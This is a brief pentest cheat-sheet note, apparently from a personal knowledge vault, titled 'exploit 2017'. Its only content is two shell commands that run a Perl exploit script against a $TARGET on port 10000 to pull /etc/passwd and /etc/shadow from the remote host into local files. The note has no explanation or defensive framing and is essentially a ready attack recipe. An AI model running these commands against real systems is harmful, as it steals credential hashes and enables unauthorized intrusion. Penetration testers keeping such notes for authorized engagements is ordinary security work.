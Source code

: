 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### exploit 2017

```
./2017.pl $TARGET 10000 /etc/passwd 0 > passwd
```

```
./2017.pl $TARGET 10000 /etc/shadow 0 > shadow
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
